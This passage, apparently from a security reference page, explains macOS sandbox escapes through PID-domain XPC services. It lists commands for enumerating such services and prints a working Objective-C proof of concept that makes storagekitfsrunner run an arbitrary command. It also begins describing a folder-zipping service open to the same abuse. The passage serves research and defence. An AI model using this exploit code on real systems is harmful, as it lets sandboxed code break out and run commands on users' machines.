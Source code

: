 In order to **contact a PID Domain XPC service**, it's just needed to register it inside the app with a line such as:

```objectivec
[[NSBundle bundleWithPath:@“/System/Library/PrivateFrameworks/ShoveService.framework"]load];
```

Moreover, It's possible to find all the **Application** Mach services by searching inside `System/Library/xpc/launchd.plist` for `<string>Application</string>`.

Another way to find valid xpc services is to check the ones in:

```bash
find /System/Library/Frameworks -name "*.xpc"
find /System/Library/PrivateFrameworks -name "*.xpc"
```

Several examples abusing this technique can be found in the [**original writeup**](https://jhftss.github.io/A-New-Era-of-macOS-Sandbox-Escapes/), however, the following are some sumarized examples.

#### /System/Library/PrivateFrameworks/StorageKit.framework/XPCServices/storagekitfsrunner.xpc

This services allows every XPC connection by returning always `YES` and the method `runTask:arguments:withReply:` executes an arbitrary command with arbitrary params.

The exploit was "as simple as":

```objectivec
@protocol SKRemoteTaskRunnerProtocol
-(void)runTask:(NSURL *)task arguments:(NSArray *)args withReply:(void (^)(NSNumber *, NSError *))reply;
@end

void exploit_storagekitfsrunner(void) {
    [[NSBundle bundleWithPath:@"/System/Library/PrivateFrameworks/StorageKit.framework"] load];
    NSXPCConnection * conn = [[NSXPCConnection alloc] initWithServiceName:@"com.apple.storagekitfsrunner"];
    conn.remoteObjectInterface = [NSXPCInterface interfaceWithProtocol:@protocol(SKRemoteTaskRunnerProtocol)];
    [conn setInterruptionHandler:^{NSLog(@"connection interrupted!");}];
    [conn setInvalidationHandler:^{NSLog(@"connection invalidated!");}];
    [conn resume];
    
    [[conn remoteObjectProxy] runTask:[NSURL fileURLWithPath:@"/usr/bin/touch"] arguments:@[@"/tmp/sbx"] withReply:^(NSNumber *bSucc, NSError *error) {
        NSLog(@"run task result:%@, error:%@", bSucc, error);
    }];
}
```

#### /System/Library/PrivateFrameworks/AudioAnalyticsInternal.framework/XPCServices/AudioAnalyticsHelperService.xpc

This XPC service allowed every client bu always returning YES and the method `createZipAtPath:hourThreshold:withReply:` basically allowed to indicate the path to a folder to compress and it'll compress it in a ZIP file.
